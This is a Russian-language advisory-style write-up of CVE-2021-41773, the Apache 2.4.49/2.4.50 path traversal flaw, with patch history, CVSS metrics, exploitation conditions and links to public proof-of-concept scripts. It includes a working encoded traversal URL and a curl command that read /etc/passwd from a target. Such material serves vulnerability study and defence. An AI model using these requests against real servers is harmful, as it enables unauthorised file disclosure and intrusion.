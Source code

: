 # **CVE-2021-41773**

---

## **Описание**

Возникает в сервере Apache версии **2.4.49** и **2.4.50**. Причиной появления уязвимости является изменение, внесенное в нормализацию пути. Уязвимость позволяет:

- **Прочитать файлы на сервере.**
- В случае неправильной конфигурации — **выполнять удаленное выполнение кода** на сервере.

Уязвимость возникает из-за ошибки в обработке URL-запросов с использованием специальной последовательности (`../`). Эта ошибка позволяет **обойти ограничения**, наложенные на доступ к файловой системе. Если сервер настроен для использования файлов `.htaccess`, уязвимость позволяет получать доступ к файлам **за пределами корневого каталога веб-сервера**.

---

## **Патчи**

- Уязвимость была **криво исправлена** в обновлении **2.4.50** (выпущено **04/10/2021**), из-за чего она также затронула эту версию.
- Полностью устранена в версии **2.4.51** (выпущено **07/10/2021**).

---

## **Метрики**

- **Вектор:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`
- **Рейтинг:** **7.5** (Высокий)
- **Уязвимые версии:**
  - `cpe:2.3:a:apache:http_server:2.4.49`
  - `cpe:2.3:a:apache:http_server:2.4.50`
- Версии **до 2.4.49** и **после 2.4.50** — не затронуты.

---

## **Эксплуатация**

### **Условия для успешной эксплуатации**

1. Сервер использует Apache HTTP Server версии **2.4.49** или **2.4.50**.
2. Конфигурация сервера включает директиву: 
    ```apache
    <Directory "/path/to/webroot">
        Require all granted
    </Directory>
    ```
3. Сервер позволяет доступ к CGI-скриптам (например, `/cgi-bin/`).

### **Возможности**

- **Чтение файлов**, находящихся на внутреннем сервере (например, `/etc/passwd`).
- **Удаленное выполнение кода**, если можно загрузить вредоносный файл на сервер.

### **Процесс эксплуатации**

1. Использование URL с кодированием для обхода защиты:

http://ip:port/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd

2. С помощью инструмента `curl`:

curl -s --path-as-is "http://iptarget:80/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"

3. Если сервер уязвим, возвращается содержимое файла `/etc/passwd`.

---

## **Материалы**

- [CVE-2021-41773 (cve.mitre.org)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)
- [NVD CVE-2021-41773 (nist.gov)](https://nvd.nist.gov/vuln/detail/cve-2021-41773)
- [Qualys Blog Post](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013)
- [Apache HTTP Server Vulnerabilities](https://httpd.apache.org/security/vulnerabilities_24.html)

---

## **Публичные эксплойты**

- [lorddemon PoC](https://github.com/lorddemon/CVE-2021-41773-PoC/blob/main/CVE-2021-41773.py)
- [walnutsecurity PoC](https://github.com/walnutsecurity/cve-2021-41773/blob/main/cve-2021-41773.py)
- [iilegacyyii PoC](https://github.com/iilegacyyii/PoC-CVE-2021-41773/blob/main/CVE-2021-41773.py)
